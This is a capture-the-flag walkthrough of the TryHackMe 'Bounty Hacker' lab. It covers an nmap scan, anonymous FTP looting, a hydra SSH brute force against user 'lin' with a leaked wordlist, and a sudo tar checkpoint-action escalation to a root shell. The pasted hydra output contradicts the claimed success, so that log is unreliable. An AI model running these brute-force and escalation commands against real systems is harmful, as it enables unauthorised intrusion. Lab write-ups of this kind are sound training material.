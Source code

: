 ![9ad38a2cc31d6ae0030c888aca7fe646](https://user-images.githubusercontent.com/80511498/147251011-a47f9804-889c-483b-8e56-1bb0964e11e0.jpeg)

tryhackme - bounty hacker [easy] https://tryhackme.com/room/cowboyhacker

## NMAP SCAN
*here is a nmap scan of the machine*
nmap command :- nmap -A http:// <IP_Address>
___
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.33.72
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.0 (90%), Linux 5.1 (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   22.96 ms  10.17.0.1
2   ... 4
5   145.37 ms 10.10.0.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.70 seconds
___
 
*we can see in the nmap result that ftp and ssh is open* 
*firstly im going to try ftp into the machine*

## FTP results
*The FTP is accessible try login with anonymous.
command :- ftp <IP_Address> 
when asked for user enter anonymous*

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>

*get the files locks.txt and task.txt they are needed in further enumeration*
___
*task.txt*
in task.txt we found a user (lin)
___
$ cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
___
locks.txt
this look's like a wordlist so we will use it for bruteforce

*$ cat locks.txt* 
- rEddrAGON
- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te
- ReddRA60N
- R3dDrag0nSynd1c4te
- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te
- R3Dr4gOn2044
- RedDr4gonSynd1cat3
- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n
- reddRAg0N
- REddRaG0N5yNdIc47e
- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357
- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE
- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te
- RedDr@gonSyn9ic47e
- REd$yNdIc47e
- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3
- r3ddr@g0N
- ReDSynd1ca7e

---

## HYDRA
**trying to brute force ssh using hydra**
now we have the user name and we will use the wordlist locks.txt to brute force
command :- hydra -l lin -P locks.txt  <IP_Address> ssh

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 21:45:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ftp://10.10.0.198:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 21:45:39

we found the password and login via ssh
we see the user flag 
we just cat the user flag 
user.txt - THM{userflag}
___

### Priv Sec
now we need to escalate our privilege
we can exploit  lin's sudo privilege
command :- sudo -l
___
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
___

*i searched more on tar sudo privilege escaltion and found this*


just run the following command 
command :- sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![68747470733a2f2f692e696d6775722e636f6d2f41397a70647a6e2e706e67](https://user-images.githubusercontent.com/80511498/147251386-5d178b8c-1a21-4590-90d1-fde988fe1ecc.png)


now we have a root access you can see by typing :- sudo -l
![68747470733a2f2f692e696d6775722e636f6d2f633845557361732e706e67](https://user-images.githubusercontent.com/80511498/147251202-77aa7dce-db3a-4829-a758-fba7623e3173.png)

cd into /root to get to the root flag
___


